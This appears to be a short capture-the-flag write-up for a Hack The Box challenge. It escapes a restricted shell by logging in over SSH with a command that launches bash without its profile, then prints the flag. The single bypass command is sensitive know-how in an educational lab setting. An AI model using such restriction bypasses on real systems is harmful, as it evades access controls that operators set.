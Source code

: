 # Restricted
> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

## About the Challenge
We have been given a source code (You can download the file [here](misc_restricted.zip)) that contains `sshd_config` and `bash_profile`

## How to Solve?
If we login normally using this command

```
ssh -p PORT restricted@IP
```

You still can get into the server, but there is some restriction (You can't use some commands, you can move into another directory, etc.)

![restricted](images/restricted.png)

And to bypass this, Im using this [website](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) as a reference. Here is the command

```
ssh -p PORT restricted@IP -t "bash --noprofile" 
```

![flag](images/flag.png)

```
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```
